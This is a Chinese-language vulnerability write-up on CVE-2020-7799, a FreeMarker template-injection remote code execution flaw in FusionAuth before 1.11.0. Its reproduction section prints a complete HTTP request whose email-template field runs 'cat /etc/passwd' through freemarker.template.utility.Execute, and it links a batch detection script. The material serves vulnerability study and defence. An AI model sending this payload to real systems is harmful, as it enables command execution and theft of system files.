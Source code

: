 （CVE-2020-7799） Apache FreeMarker模板FusionAuth远程代码执行漏洞
=================================================================

一、漏洞简介
------------

在FusionAuth
1.11.0版本之前的中发现了一个问题。经过身份验证的用户允许编辑电子邮件模板（主页-\>设置-\>电子邮件模板）或主题（主页-\>设置-\>主题），可利用`freemarker.template.utility.Execute`执行任意命令

二、漏洞影响
------------

三、复现过程
------------

post提交

    POST /ajax/email/template/preview HTTP/1.1
    Host: www.0-sec.org:9011
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
    Accept: */*
    Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 796
    DNT: 1
    Connection: close
    Referer: http://192.168.0.3:9011/admin/email/template/edit/2c2591f5-2136-4a77-8b5a-1f5e9fb0e25b
    Cookie: JSESSIONID=FA9DB3CBABA6B37E5336AE4B96001807; 

    primeCSRFToken=kRC228UjAA4ohN_E9PW9kz0HpTlxUDCB_HVrDhBUfWU&emailTemplateId=2c2591f5-2136-4a77-8b5a-1f5e9fb0e25b&emailTemplate.name=COPPA%20Notice&emailTemplate.defaultSubject=Notice%20of%20your%20consent&emailTemplate.fromEmail=no-reply%40fusionauth.io&emailTemplate.defaultFromName=FusionAuth&emailTemplate.defaultTextTemplate=You%20recently%20granted%20your%20child%20consent%20in%20our%20system.%20This%20email%20is%20to%20notify%20you%20of%20this%20consent.%20If%20you%20did%20not%20grant%20this%20consent%20or%20wish%20to%20revoke%20this%20consent%2C%20click%20the%20link%20below%3A%0A%0Ahttp%3A%2F%2Fexample.com%2Fconsent%2Fmanage%0A%0A-%20FusionAuth%20Admin&emailTemplate.defaultHtmlTemplate=${"freemarker.template.utility.Execute"?new()("cat /etc/passwd")}}

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-7799)ApacheFreeMarker模板FusionAuth远程代码执行漏洞/media/rId24.png)

### 批量检测脚本

https://github.com/ianxtianxt/CVE-2020-7799/

参考链接
--------

> https://www.anquanke.com/vul/id/1910928
>
> https://cert.360.cn/warning/detail?id=207275e27a6e7ee85a43a6eb5cf5fc69
